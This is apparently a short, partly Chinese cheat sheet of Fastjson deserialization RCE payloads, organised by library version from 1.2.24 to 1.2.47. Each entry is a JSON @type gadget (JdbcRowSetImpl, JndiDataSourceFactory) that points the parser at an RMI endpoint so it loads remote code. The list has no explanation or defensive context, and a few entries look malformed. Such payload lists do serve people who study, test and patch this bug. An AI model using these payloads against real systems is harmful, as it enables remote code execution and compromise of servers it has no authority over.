 # Fastjson-1.2.47-rce
version&lt;1.2.51 远程命令执行
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}
​
未知版本(1.2.24-41之间)
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
​
1.2.41
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
​
1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};
​
1.2.43
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}
​
1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}
​
1.2.47
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
